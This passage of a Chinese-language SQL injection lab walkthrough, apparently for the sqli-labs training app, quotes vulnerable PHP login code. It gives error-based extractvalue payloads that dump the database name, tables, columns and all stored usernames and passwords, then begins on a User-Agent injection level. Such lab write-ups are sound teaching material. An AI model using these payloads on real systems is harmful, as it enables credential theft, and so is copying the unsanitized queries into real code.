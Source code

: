 ```
$uname=check_input($_POST['uname']);  
$passwd=$_POST['passwd'];

// connectivity 
@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";
```

查看源码username字段无法绕过

测试uname=admin &passwd=1'时有报错回显

![image-20201111095903302](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111095903302.png)

判断单引号’闭合，使用报错注入

![image-20201111095716979](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111095716979.png)

爆库payload（）

```
uname=admin and  &passwd=admin‘ extractvalue(1,concat(0x7e,(select database())))  #&submit=Submit
```

爆表payload

```
uname=admin&passwd=admin' extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) #&submit=Submit
```

爆列payload

```
uname=admin &passwd=admin' extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) #&submit=Submit
```

同样使用not in查询没有显示出的其他值。

爆值payload

```
uname=admin &passwd=admin' extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users))) #  &submit=Submit
```



## 0X12Less-18

```
$uname = check_input($_POST['uname']);  
$passwd = check_input($_POST['passwd']);
```

uname和passwd都进行了过滤，在这里进行注入是行不通的。

```
$uagent = $_SERVER['HTTP_USER_AGENT'];  
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```
